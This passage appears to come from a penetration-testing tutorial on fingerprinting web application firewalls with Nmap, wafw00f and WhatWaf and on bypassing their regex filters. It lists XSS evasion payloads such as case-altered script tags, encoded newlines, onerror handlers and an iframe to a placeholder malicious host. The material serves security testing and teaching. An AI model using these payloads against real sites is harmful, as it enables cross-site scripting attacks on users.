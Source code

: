 1. Running an Nmap Scan

The Nmap Scripting Engine (NSE) includes scripts for detecting and fingerprinting firewalls. These scripts can be seen in use below.


```
$ nmap --script=http-waf-fingerprint,http-waf-detect -p443 example.com  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-29 21:43 PDT  
Nmap scan report for example.com (xxx.xxx.xxx.xxx)  
Host is up (0.20s latency).  
  
PORT STATE SERVICE  
443/tcp open https  
| http-waf-detect: IDS/IPS/WAF detected:  
|\_example.com:443/?p4yl04d3=<script>alert(document.cookie)</script>  
  
Nmap done: 1 IP address (1 host up) scanned in 8.81 seconds
```
2. [WafW00f](https://github.com/Ekultek/WhatWaf)

Wafw00f is a command line utility that sends commonly-flagged payloads to the given domain name and assess the web server’s response to detect and identify the firewall when possible.


```
$ wafw00f example.com 
```
![](https://cdn-images-1.medium.com/max/800/1*8zeEz07TxwZ8VGBIaqxVvA.png)
3. [WhatWaf](https://github.com/Ekultek/WhatWaf)

In addition to detecting a firewall, WhatWaf can attempt to discover a bypass by utilizing tamper scripts and assessing the web server’s response to the various payloads.

![](https://cdn-images-1.medium.com/max/800/1*_pCVKq8cL3ZTghqWG5BAyQ.png)
The results from WhatWaf are consistent with those of Wafw00f.

Bypassing WAFs
==============

This section will outline some of the potential WAF bypass techniques with examples.

1. Bypassing Regex
------------------

This method applies to the regex filtering done by both the WAF and web server. During a black box penetration test, finding the regular expression used by the WAF may not be an option. If the regex is accessible, this [article](https://www.secforce.com/blog/bypassing-wafs-web-application-filters/) explains regex bypass through case studies.

Commmon bypasses include changing the case of the payload, using various encodings, substituting functions or characters, using an alternative syntax, and using [linebreaks](https://www.aleksandrhovhannisyan.com/blog/crlf-vs-lf-normalizing-line-endings-in-git/) or tabs. The examples below demonstrate some approaches to bypassing regex with comments.


```
<sCrIpT>alert(XSS)</sCriPt> #changing the case of the tag  
<<script>alert(XSS)</script> #prepending an additional "<"  
<script>alert(XSS) // #removing the closing tag  
<script>alert`XSS`</script> #using backticks instead of parenetheses  
java%0ascript:alert(1) #using encoded newline characters  
<iframe src=http://malicous.com < #double open angle brackets  
<STYLE>.classname{background-image:url("javascript:alert(XSS)");}</STYLE> #uncommon tags  
<img/src=1/onerror=alert(0)> #bypass space filter by using / where a space is expected  
<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaaa href=javascript:alert(1)>xss</a> #extra characters
```
Obfuscation
-----------